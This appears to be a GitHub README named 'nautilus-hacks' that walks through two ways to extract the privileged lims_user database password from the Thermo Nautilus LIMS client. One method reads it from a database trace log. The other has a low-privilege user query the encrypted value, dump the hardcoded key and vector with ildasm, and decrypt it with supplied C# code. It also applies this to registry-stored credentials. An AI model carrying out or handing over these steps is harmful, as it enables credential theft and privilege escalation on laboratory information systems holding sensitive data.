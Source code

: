 # nautilus-hacks

## Getting lims_user password (#1)

Add a server with `TRACE` preceding the actual Database Type.  

![Server window with TRACE database type](img/01.jpg)

Make sure the "TRACE" part "sticks".  It might not if you create a new server entry, and you'll have to edit the properties. 
You'll know it is good to go when you see "TRACE" in the server list.

![Server list showing TRACE prefix](img/02.jpg)

Select the trace server and login.

![Login window with trace server selected](img/03.jpg)

The Database Trace window appears.  You can clear all the checkboxes and provide a log location for saving.

![Database trace window](img/04.jpg)

Once you click OK in the Database Trace window, you will be logged in and the Nautilus client will be logging.  
Log out immediately and close Nautilus.

Navigate to the location you saved your trace log.

![Windows explorer at log location](img/06.jpg)

Open the log and find the keys to the kingdom.  Good grief.

![Log file showing lims_user password](img/07.jpg)


## Getting lims_user password (#2)

Login (any user with lims_readonly) and run query:   

```sql
select lims_security.get_role_security from dual;
```

Will give back something like `H7y5bAD1IidlB1YqxVyusw==`, which is the encrypted password.

Open the .Net IL disassembler, ildasm.exe.  When Visual Studio is installed, ildasm can be found in a path such as `C:\Program Files (x86)\Microsoft SDKs\Windows\v10.0A\bin\NETFX 4.6.1 Tools`.

In ildasm, open NautilusRoleSecurity.exe, which is typically installed in `C:\Nautilus`.  When the exe has been loaded, select File > Dump.  The only required option is "Dump IL Code".  Open the dumped ".il" file with a text editor.  Search for "Vector" and/or "Key" and find the two private field values, like this:

```
.field static assembly literal string Key = "Nautilus"
.field static assembly literal string Vector = "Secret"
```

Make a note of the `Key` and `Vector` values.

Create a new C# console application.  Add `Thermo.Nautilus.BL.Services.dll` as a reference.  It can be found next to NautilusRoleSecurity.exe or next to Nautilus.exe.  Here is example code for the console application:

```csharp
using System;
using Thermo.Nautilus.BL.Services;

namespace DecryptNautilusPasswords
{
    class Program
    {
        static void Main(string[] args)
        {
            try 
            {
                if (args.Length < 3) throw new ArgumentException();
                
                var decrypted = string.Empty;
                var sym = new SymmCrypto();
                sym.Decrypt(args[0], args[1], args[2], out decrypted);
                Console.WriteLine(decrypted);
            }
            catch (Exception) 
            {
                Console.WriteLine("Failed to decrypt.  Try again, passing args in this order: 1.Key 2.Vector 3.EncryptedPassword");
            }
        }
    }
}

```

And here is how the example compiled executable would work:

```shell
> ExecutableName.exe Nautilus Secret H7y5bAD1IidlB1YqxVyusw==
secret123
```

The output is the decrypted password. (In this case, "secret123")

This same process works for encrypted values in the registry (BGP username, password at `HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Thermo\Nautilus\9.3\BGP#servername#instancename#x\ParameterX`).
